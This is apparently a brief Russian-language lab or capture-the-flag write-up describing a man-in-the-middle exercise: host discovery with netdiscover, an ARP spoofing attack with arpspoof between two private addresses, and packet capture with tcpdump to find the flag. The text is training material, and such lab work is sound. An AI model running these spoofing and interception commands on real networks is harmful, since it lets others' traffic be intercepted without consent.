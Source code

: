 Исследует цель с помощью ip a
Запускаем ```netdiscover -i eth0 -r 172.16.2.0/24``` для определения хостов в сети
Запускаем``` arpspoof -i eth0 -t 172.16.2.66 172.16.2.92``` для  проведения ARP Spoofing атаки
Для получения флага запускаем ```tcpdump host 172.16.2.92``` и смотрим протокол которым обмениваются хосты